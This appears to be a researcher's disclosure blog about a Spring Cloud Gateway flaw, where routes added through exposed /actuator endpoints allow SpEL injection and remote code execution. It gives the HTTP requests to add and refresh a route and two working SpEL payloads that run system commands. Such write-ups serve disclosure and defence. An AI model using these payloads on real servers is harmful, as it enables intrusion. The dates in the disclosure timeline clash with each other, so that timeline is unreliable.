<i> In this blog, we will introduce our new 0-day vulnerability of Spring Cloud Gateway that we had just found out in the first of 2021. This vulnerability was reported to `VMWARE` and they had just been released the patch in the new version which released on 01/03/2021.
</i>

<b>Note: </b>
<i>Update in 01/03/2021: 
- 16/01/2021: We reported to VMware and being assigned for triage after that. 
- 16/02/2021: Ask for any update and get my first 0day <b>DUPLICATE</b>

- 01/03/2021: VMware release new version, duplicated guy also release the new blog about this.



Seem that we reported later than him 1day. T.T
</i>

# Inspiration
The vulnerability was inspired by the blog `https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/` which was released on 20th December 2021. From this blog, the author ends with the SSRF by designing with the exposed `actuator` endpoint. After reading the docs of `Spring Cloud Gateway`, @rskvp93 - my mentor, comes with the idea of using `global filter` to gain the Remote Code Execution through EL Injection. 

# Detail Analysis:
## Functional Design:


As the above picture, Sping Cloud Gateway is a tool that provides out-of-the-box routing mechanisms often used in microservices applications as a way of hiding multiple services behind a single facade. To routing requests, the Spring Cloud Gateway forwards requests to `Gateway Handler Mapping` which route will be transferred to. 

Moreover, `Spring Cloud Gateway` also provides some built-in <b>`Gateway Filter`</b> which allow the modification of the incoming HTTP request or outgoing HTTP response in some manner. 

## Gateway Filter:
There is a list of public endpoint `/actuator` that can help us to construct a route with any filter. 


As the analysis of the above blog, we will summary some promising endpoints:
1. List all route:

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```



2. Add a route:

```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 192.168.137.120:9000
Connection: close
Content-Type: application/json
Content-Length: 334

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/abc/**"
      }
    }
  ],
  "filters": [
    {
      "name": "AddRequestParameter",
      "args": {
        "_genkey_0": "X-Custom",
        "_genkey_1": "Test"
      }
    }
  ],
  "uri": "https://httpbin.org",
  "order": 0
}
```


3. Refresh route:
After adding a route, all the new route need a subsequent request to make the application recognize.

```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```



At now, a new route had added and the route can be accessed at `abc` endpoint with the new response header `X-Custom: Test ` which is added by the filter.


 
In the previous chapter, we introduce Spring Cloud Gateway functionality, its filter, and how to construct a route through `/actuator` endpoint.  
## Digging Deeper Into Defining a Route:

After exploring the Spring Gateway filter through its docs, we were attracted to a part about using SpEL Expression to config the filter. This part of the document makes us dig into how to construct a route and find a way to do EL Injection. 


<i> Let see what happen when adding a new route ? </i>

A route after adding with `/actuator` endpoint will be a push to the routing cache. To Publish to the route, a `refresh` request must be made and all the route list arrays in the cache will be popped and converted one by one to a `Route`. We can define the `filter` and `predicate` as this example:

```
"filters": [
    {
      "name": "AddResponseHeader",  #Name of the filter
      "args": {
        "_genkey_0": "X-Custom",    #arg1: headername 
        "_genkey_1": "${abcc}"      #arg2: headervalue
      }
    }
  ]
```

 
 

With every argument which passes into, the value will be considered which is spel expression by checking if the string starts with `#{` and ends with `}`. 



Therefore, This code is vulnerable to EL Injection and leads to RCE. There are many ways that you can exploit this vulnerability with any payload of EL Injection which can be found on the internet. However, to construct a payload that is available in as many cases as possible, we choose the payload that can reflect the command output to the response.

```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```




We had tested above payload on Java 11 but in newer version (java 17), the payload for EL Injection is quite different and you can try this poc:

```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```

# Conclusion:
To sum up, our research could leverage SSRF to RCE through EL Injection. However, this vulnerability can migrate easily by limiting the access to `/actuator` endpoint. 

# Credit:
nxhoang99 and rskvp93 from VcsLab of Viettel Cyber Security.
